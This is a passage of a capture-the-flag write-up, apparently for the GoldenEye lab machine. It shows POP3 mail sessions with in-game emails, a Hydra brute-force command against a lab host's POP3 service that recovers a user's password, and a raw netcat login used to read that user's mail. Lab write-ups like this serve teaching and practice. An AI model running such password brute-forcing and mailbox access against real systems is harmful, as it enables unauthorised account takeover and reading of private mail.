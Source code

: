 ```
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id 4B9F4454B1
	for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.
```

We now know to look for access codes once we get a shell on the target. We also learned there's another username on the ubuntu domain: natalya. So I kicked off the bruteforce for her account as well, this time with Hydra, because I wasn't happy with the speed of the Metasploit module.

```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt 192.168.159.130 -s 55007 pop3 -f
[55007][pop3] host: 192.168.159.130   login: natalya   password: bird
```

Got lucky with natalya as well. Now back to reading emails:

```
nc 192.168.159.130 55007
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
```